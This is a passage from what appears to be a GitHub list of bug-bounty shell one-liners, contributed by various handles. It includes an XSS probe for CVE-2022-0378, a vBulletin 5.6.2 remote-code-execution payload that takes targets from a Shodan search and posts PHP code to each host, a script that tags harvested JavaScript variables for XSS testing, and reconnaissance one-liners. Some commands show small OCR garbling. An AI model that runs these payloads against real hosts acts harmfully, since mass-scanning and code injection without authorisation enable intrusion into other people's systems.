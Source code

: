[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#cve-2022-0378)

> @7h3h4ckv157

```shell
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#vbulletin-562---widget_tabbedcontainer_tab_panel-remote-code-execution)

> @Madrobot_

```shell
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```

### Find JavaScript Files

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#find-javascript-files)

> @D0cK3rG33k

```shell
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```

### Extract Endpoints from JavaScript

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#extract-endpoints-from-javascript)

> @renniepak

```shell
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

### Get CIDR & Org Information from Target Lists

[](https://github.com/dwisiswant0/awesome-oneliner-bugbounty#get-cidr--org-information-from-target-lists)

> @steve_mcilwain

```shell
for HOST in $(cat HOSTS.txt);do echo $(for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```
